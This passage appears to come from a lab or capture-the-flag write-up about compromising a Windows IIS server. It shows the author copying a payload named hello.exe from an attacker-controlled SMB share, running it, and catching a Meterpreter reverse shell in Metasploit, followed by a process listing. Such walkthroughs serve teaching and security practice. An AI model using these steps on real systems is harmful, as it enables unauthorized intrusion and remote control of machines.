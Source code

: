 ```
08/06/2019  01:13 PM               421 cmdout
08/06/2019  01:11 PM                 0 DMI2EBC.tmp
08/03/2019  09:43 AM                 0 DMI4D21.tmp
08/06/2019  01:12 PM             8,743 EC2ConfigService_20190806141221.log
08/06/2019  01:12 PM           292,438 EC2ConfigService_20190806141221_000_WiXEC2ConfigSetup_64.log
08/06/2019  01:13 PM                21 stage1-complete.txt
08/06/2019  01:13 PM            28,495 stage1.txt
05/12/2019  08:03 PM           113,328 svcexec.exe
08/06/2019  01:13 PM                67 tmp.dat
              12 File(s)        634,982 bytes
               2 Dir(s)  39,108,558,848 bytes free
copy \\10.10.7.59\TX\hello.exe hello.exe
c:\Windows\Temp>copy \\10.10.7.59\TX\hello.exe hello.exe
        1 file(s) copied.
```

After executing `hello.exe`, I was able to catch the meterpreter shell which I then quickly tried to migrate to a _slightly_ stabler process. However being attached to the `cmd.exe` process still had me worried about stability.

```
msf5 exploit(multi/handler) > [*] Sending stage (176195 bytes) to 10.10.167.66
[*] Meterpreter session 1 opened (10.10.7.59:4444 -> 10.10.167.66:49250) at 2020-11-18 22:48:36 +0000

msf5 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > getpid
Current pid: 1460
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User              Path
 ---   ----  ----                  ----  -------  ----              ----
 0     0     [System Process]                                       
 4     0     System                                                 
 368   4     smss.exe                                               
 520   512   csrss.exe                                              
 580   568   csrss.exe                                              
 588   512   wininit.exe                                            
 616   568   winlogon.exe                                           
 672   588   services.exe                                           
 680   588   lsass.exe                                              
 740   672   svchost.exe                                            
 784   672   svchost.exe                                            
 820   672   svchost.exe                                            
 868   616   dwm.exe                                                
 876   672   svchost.exe                                            
 904   672   svchost.exe                                            
 964   672   svchost.exe                                            
 1020  672   svchost.exe                                            
 1132  672   spoolsv.exe                                            
 1156  672   amazon-ssm-agent.exe                                   
 1208  2792  conhost.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\conhost.exe
 1216  672   svchost.exe                                            
 1236  672   LiteAgent.exe                                          
 1292  672   svchost.exe                                            
 1356  672   svchost.exe                                            
 1372  672   svchost.exe                                            
 1388  672   WService.exe                                           
 1460  2792  hello.exe             x86   0        IIS APPPOOL\Blog  c:\Windows\Temp\hello.exe
```